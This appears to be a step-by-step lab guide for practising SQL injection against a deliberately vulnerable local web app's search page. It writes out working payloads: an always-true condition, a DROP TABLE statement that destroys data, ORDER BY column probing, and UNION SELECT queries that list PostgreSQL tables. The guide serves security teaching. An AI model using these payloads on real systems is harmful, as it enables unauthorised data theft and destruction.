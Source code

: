 
# ============================================================================
# SQL Injection
# ATTACK EXAMPLES & TESTING ENDPOINTS
# ============================================================================


## Starting small

1. Navigate to dashboard->search (http://127.0.0.1:5000/search)

2. Try a simple search first on basic search (just press search)

3. The try simple search with a single company name, and one with a wrong name.

4. Try the same company name in advanced search to check that it all works

5. On advanced search, try `company_name' or 1=1 --` (replace company_name with the one you searched for)

6. Now try `company_name' drop table transactions --` and `company_name'; drop table transactions; --` Doesn't work though...

7. Then try this `company_name'; drop table transactions; commit --` 

8. If you executed the step `7`, then you need to go to your setup script, stop everything (option `5`), delete the data (option `6`) and rebuild (option `1`)

9. Now try this `' UNION SELECT tablename, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM pg_tables WHERE schemaname='public'--`

10. Make a sequence of queries to find number of returned columns
```
test' ORDER BY 1--
test' ORDER BY 2--
test' ORDER BY 3--
test' ORDER BY 4--
test' ORDER BY 5--
...continue until error...

```
When you get an error like "ORDER BY position X is not in select list", then X-1 is your column count.

11. Now try this `' UNION SELECT tablename, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM pg_tables WHERE schemaname='public'--`

12. Now try this `' UNION SELECT 1, 1, tablename, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM pg_tables WHERE schemaname='public'--`

13. The returned data is one exact record multiple times. There is a limitation to the sql injection because the query code is trying to convert results back to Transaction objects. Shows how bad application logic can accidentally limit injection impact. The code is very much vulnerable to SQL injection, but the results are not returned in the clear form.

## Going big
